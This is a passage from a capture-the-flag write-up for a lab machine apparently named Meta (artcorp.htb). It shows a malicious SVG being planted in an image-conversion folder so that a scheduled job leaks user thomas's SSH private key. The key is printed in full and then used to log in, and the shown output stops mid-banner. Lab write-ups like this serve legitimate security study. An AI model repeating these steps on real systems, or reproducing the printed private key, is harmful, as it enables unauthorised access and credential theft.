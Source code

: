 ```bash
www-data@meta:~$ cp /dev/shm/tgihf/exploit.svg /var/www/dev01.artcorp.htb/convert_images/
www-data@meta:~$ sleep 30
www-data@meta:~$ ls -la /dev/shm/tgihf/id_rsa
-rwxrwxrwx 1 thomas thomas 2590 Mar  9 18:26 /dev/shm/tgihf/id_rsa
```

`thomas`'s private key:

```txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
qMgzqmJPFAdxmkD9WRnVP9OqEF0ZEYwTFuFPUlNq5hSbNRucwXEXbW0Wk7xdXwe3OJk8hu
ajeY80riz0S8+A+OywcXZg0HVFVli4/fAvS9Im4VCRmEfA7jwCuh6tl5JMxfi30uzzvke0
yvS1h9asqvkfY5+FX4D9BResbt9AXqm47ajWePksWBoUwhhENLN/1pOgQanK2BR/SC+YkP
nXRkOavHBxHccusftItOQuS0AEza8nfE5ioJmX5O9+fv8ChmnapyryKKn4QR4MAqqTqNIb
7xOWTT7Qmv3vw8TDZYz2dnlAOCc+ONWh8JJZHO9i8BXyHNwAH9qyESB7NlX2zJaAbIZgQs
Xkd7NTUnjOQosPTIDFSPD2EKLt2B1v3D/2DMqtsnAAAFgOcGpkXnBqZFAAAAB3NzaC1yc2
EAAAGBALfSKCOYB7c/KJobGmfRsvsF8jWT6eYyWb2zifeOjiOINpEUQxw5uce7qd8+bPx/
8ro4I4K6Djh4fcwQbomdSZ9Y5b3kTOx9VS27WPJP6zfTxXvzJEbGHR+OSL1ajIM6piTxQH
cZpA/VkZ1T/TqhBdGRGMExbhT1JTauYUmzUbnMFxF21tFpO8XV8HtziZPIbmo3mPNK4s9E
vPgPjssHF2YNB1RVZYuP3wL0vSJuFQkZhHwO48AroerZeSTMX4t9Ls875HtMr0tYfWrKr5
H2OfhV+A/QUXrG7fQF6puO2o1nj5LFgaFMIYRDSzf9aToEGpytgUf0gvmJD510ZDmrxwcR
3HLrH7SLTkLktABM2vJ3xOYqCZl+Tvfn7/AoZp2qcq8iip+EEeDAKqk6jSG+8Tlk0+0Jr9
78PEw2WM9nZ5QDgnPjjVofCSWRzvYvAV8hzcAB/ashEgezZV9syWgGyGYELF5HezU1J4zk
KLD0yAxUjw9hCi7dgdb9w/9gzKrbJwAAAAMBAAEAAAGAFlFwyCmMPkZv0o4Z3aMLPQkSyE
iGLInOdYbX6HOpdEz0exbfswybLtHtJQq6RsnuGYf5X8ThNyAB/gW8tf6f0rYDZtPSNyBc
eCn3+auUXnnaz1rM+77QCGXJFRxqVQCI7ZFRB2TYk4eVn2l0JGsqfrBENiifOfItq37ulv
kroghSgK9SE6jYNgPsp8B2YrgCF+laK6fa89lfrCqPZr0crSpFyop3wsMcC4rVb9m3uhwc
Bsf0BQAHL7Fp0PrzWsc+9AA14ATK4DR/g8JhwQOHzYEoe17iu7/iL7gxDwdlpK7CPhYlL5
Xj6bLPBGmRkszFdXLBPUrlKmWuwLUYoSx8sn3ZSny4jj8x0KoEgHqzKVh4hL0ccJWE8xWS
sLk1/G2x1FxU45+hhmmdG3eKzaRhZpc3hzYZXZC9ypjsFDAyG1ARC679vHnzTI13id29dG
n7JoPVwFv/97UYG2WKexo6DOMmbNuxaKkpetfsqsLAnqLf026UeD1PJYy46kvva1axAAAA
wQCWMIdnyPjk55Mjz3/AKUNBySvL5psWsLpx3DaWZ1XwH0uDzWqtMWOqYjenkyOrI1Y8ay
JfYAm4xkSmOTuEIvcXi6xkS/h67R/GT38zFaGnCHh13/zW0cZDnw5ZNbZ60VfueTcUn9Y3
8ZdWKtVUBsvb23Mu+wMyv87/Ju+GPuXwUi6mOcMy+iOBoFCLYkKaLJzUFngOg7664dUagx
I8qMpD6SQhkD8NWgcwU1DjFfUUdvRv5TnaOhmdNhH2jnr5HaUAAADBAN16q2wajrRH59vw
o2PFddXTIGLZj3HXn9U5W84AIetwxMFs27zvnNYFTd8YqSwBQzXTniwId4KOEmx7rnECoT
qmtSsqzxiKMLarkVJ+4aVELCRutaJPhpRC1nOL9HDKysDTlWNSr8fq2LiYwIku7caFosFM
N54zxGRo5NwbYOAxgFhRJh9DTmhFHJxSnx/6hiCWneRKpG4RCr80fFJMvbTod919eXD0GS
1xsBQdieqiJ66NOalf6uQ6STRxu6A3bwAAAMEA1Hjetdy+Zf0xZTkqmnF4yODqpAIMG9Um
j3Tcjs49usGlHbZb5yhySnucJU0vGpRiKBMqPeysaqGC47Ju/qSlyHnUz2yRPu+kvjFw19
keAmlMNeuMqgBO0guskmU25GX4O5Umt/IHqFHw99mcTGc/veEWIb8PUNV8p/sNaWUckEu9
M4ofDQ3csqhrNLlvA68QRPMaZ9bFgYjhB1A1pGxOmu9Do+LNu0qr2/GBcCvYY2kI4GFINe
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----
```

Log in with this key and grab the user flag at `/home/thomas/user.txt`.

```bash
$ ssh -i thomas.key thomas@artcorp.htb
The authenticity of host 'artcorp.htb (10.129.146.212)' can't be established.
ED25519 key fingerprint is SHA256:Y8C2lOecv5ZDp3I6M5zjDUYDVsc3p/pgjF9HVRPioqQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'artcorp.htb' (ED25519) to the list of known hosts.
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
```